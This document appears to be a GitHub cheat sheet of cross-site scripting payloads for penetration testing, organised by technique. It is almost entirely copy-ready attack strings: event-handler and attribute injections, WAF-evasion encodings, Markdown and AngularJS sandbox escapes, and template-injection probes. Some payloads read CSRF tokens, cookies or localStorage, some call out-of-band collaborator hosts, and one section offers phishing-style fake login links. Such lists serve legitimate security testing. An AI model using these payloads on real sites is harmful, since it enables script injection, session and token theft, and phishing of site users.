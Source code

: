 # XSS Payload Collection

This is a curated list of XSS payloads used in penetration testing engagements. Payloads range from simple detection strings to advanced WAF bypasses, DOM clobbering, HTML injection, jQuery tricks, AngularJS sandbox escapes, and real-world PoCs.

---

## 🚩 Basic XSS Payloads

These payloads are useful for detection or for quickly verifying that XSS exists.

```html
<script>alert(document.domain)</script>
<svg src=x onerror=confirm(document.domain)>
<svg/onerror=alert('XSS')>
<img src=x onerror=confirm(document.domain)>
<img src=x onerror=alert(document.domain)>
<img src=x onerror=prompt(document.domain)>
<iframe src="javascript:alert(document.domain);"></iframe>
<button onclick="alert(document.domain)">Click me</button>
<a href="javascript:alert(document.domain)">Click me</a>
<marquee onstart=alert(document.domain)>
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<body onload=alert(document.domain)>
<body onresize=console.dir(11)></body>
```

---

## 📝 Event Handler Payloads

```html
<xss onmousemove="alert(document.domain)">test</xss>
<xss onmouseleave="prompt(document.domain)">test</xss>
<a/href="#"/oncut=prompt`1`>cutme</a>
<form action="javascript:alert(1)" onsubmit="javascript:prompt(2)">
  <button type="submit" onclick="prompt`2`" onclick="prompt`3`" onclick="prompt`4`">Submit</button>
</form>
<form action="J\aV\a\s\cr\i\pt\::prompt`1`;http://" target="">
  <button type="submit" onclick="prompt`2`" onclick="prompt`3`" onclick="prompt`4`">Submit</button>
</form>
```

---

## 💡 Attribute Injection

```html
foo'" onmouseenter="alert(document.domain)" bar
foo'" onmousemove="alert(document.domain)" bar
foo'" onmouseenter="alert(document.domain)" bar.csv
foo'\" onmouseenter=\"alert(document.domain)\" bar.html
foo%27%22onmouseenter%3d%22%28alertdocument.domain%29%22%20bar%2ecom
```

---

## 🔀 Obscure / Modified Variants

```html
'"/><svg src=x onerror=confirm(document.domain)>
'"/><img src=x onerror=prompt(document.domain)>
'"/><img src=x onerror=prompt`document.domain`>
'&quot;&gt;&lt;img src=x onerror=prompt`document.domain`&gt;
&lt;script&gt;alert(document.domain)&lt;/script&gt;
&lt;scri\pt&gt;confirm(1)&lt;/scri\pt&gt;
💋img src=x onerror=alert(document.domain)//💛
```

---

## 🧠 Comment Tricks

```html
<!--'"/><img src=x onerror=prompt(document.domain)>
<!--'"/><svg src=x onerror=confirm(document.domain)>
<!--'\"/><img src=x onerror=prompt(document.domain)>
<!-- <textarea><img title="</textarea><img src=x onerror=alert()>"></textarea>
<!--<textarea><img title=\"</textarea><img src=x onerror=alert()>\"></textarea>
```

---

## 🧪 SVG / CSS / Media Payloads

```html
<svg xmlns="http://www.w3.org/2000/svg"><animate onbegin="confirm(document.domain)"></animate></svg>
<svgonload=alert(1)>
<div style="background-image:url(javascript:confirm(document.domain))"></div>
<h1 style="background-color:red;background-image:url('javascript:confirm`1`')">B2<h1>
```

---

## 🌐 JavaScript URL Bypasses

```html
<a href="JaVaScRiPt%3Aalert(1)">test</a>
<a href="vbscript:msgbox(1)">test</a>
javascript:alert(document.domain);//https://
jAvAsCrIpT:prompt('xss');//https://
javascript:parent.window.alert(document.domain);x=globalThis.parent.window.document.getElementsByName("__RequestVerificationToken")[0].value;
```

---

## 💥 Advanced Polyglots & Function Abuse

```js
#!@*%alert`1`
+!+[]
Function("ale"+"rt(1)")();
eval`2+2`;
[{{alert;pg`XSS`}}]
new Function`alt\`6\``;
```

---

## 🧵 Template Injection

```js
{{7*7}}                       // Jinja2
${constructor.constructor('alert(1)')()}
{{constructor.constructor('alert(1)')()}}
{{constructor['constructor'](`alert(1)`)()}}
{{constructor.constructor('alert(1)')()}}{{7*7}}
#{7*7}                        // Thymeleaf
```

---

## 🖼 Dummy Image PoCs

```html
<img src="https://raw.githubusercontent.com/thiem-dev/xssCat/main/tpen-safe-cat.jpg" onerror=prompt`document.domain`>
<img src="http://mj96aqjvk4k9incbw2o252mia9g04tsi.oastify.com" onerror=alert`document.domain`>
```

---

## 🔐 HTML Injection - Phishing Style

```html
<a href="http://bing.com">Your session has expired. Click here to login</a>
<a href="https://google.com/">Click here to reset your password</a>
<a href="https://google-web-pen-testing.vercel.app/">Session expired. Click to login</a>
&lt;a href="https://google.com/"&gt;Click here to reset password&lt;/a&gt;
%3Ca%20href%3D%22https%3A%2F%2Fgoogle.com%2F%22%3EClick%20here%20to%20reset%20password%3C%2Fa%3E
```

---

## 🧨 HTML Injection - Green Box PoC

```html
<a href="http:/bing.com" style="height:100vh;width:100vw;position:fixed;top:-25px;left:-525px;">a</a>
<a href="javascript:confirm(document.domain)" style="height:100vh;width:100vw;position:fixed;top:-25px;left:-525px;">a</a>
<a href="https://bing.com" style="background-color:green">abc</a>
<h1 style="background-color:red;background-image:url('javascript:confirm`1`')">B2</h1>
<iframe src="[oastify]">
```

---

## 🎯 DOM Clobbering

```html
<form id=x><output id=y>Clobbered</output>
<script>alert(x.y.value);</script>
```

---

## 🐞 "Big One" Multi-Sink PoC

```html
<a href=javascript:confirm(1) onclick=prompt(2)>Click</a>
<img src=x onerror=console.log(3)>
<input type=text onfocus=fetch('[oast]')>
<button onmouseover=document.write(4)>Hover</button>
<div onmousemove=localStorage.setItem('x',5)>storeX</div>
<form onsubmit=sessionStorage.setItem('y',6)><input type=submit></form>
<video oncanplay=console.error(7)><source src=x></video>
<svg onload=document.cookie='test=xss8'></svg>
<marquee onstart=document.location='javascript:alert(1)'>Test</marquee>
<details ontoggle=navigator.sendBeacon('/log',9)><summary>Click</summary></details>
<iframe src=javascript:open('https://bing.com?xss12')></iframe>
<svg><animate attributeName="x" begin="0s" dur="1s" repeatCount="indefinite" onbegin=console.warn(10)></animate></svg>
```

---

## 🔄 WAF Evasion & Encoding Tricks

```html
<scr<script>ipt>alert(XSS)</scr<script>ipt>
<sCrIpT>alert(XSS)</sCriPt>
<<script>alert(XSS)</script>
<script>alert(XSS)
<script>alert`XSS`</script>
java%0ascript:alert(1)
<iframe src=http://bing.com <
<STYLE>.classname{background-image:url("javascript:alert(XSS)")}</STYLE>
<img/src=1/onerror=alert(0)>
<a href=javascript:alert(1)>xss</a>
data:text/html;base64,YWxlcnRgMWA=
data:text/html;base64,amF2YXNjcmlwdDovKi0t...
<a href="java%0ascript:confirm(document.domain)">link</a>
```

---

## 🪵 Markdown XSS

```md
[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

---

## 🅰️ AngularJS Payloads

From [PortSwigger AngularJS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

```js
constructor.constructor('alert(1)')()
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}{{7*7}}
${constructor.constructor('alert(1)')()}
{{constructor['constructor'](`alert(1)`)()}}
```

**Sandbox Breakout Example:**

```url
...?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

---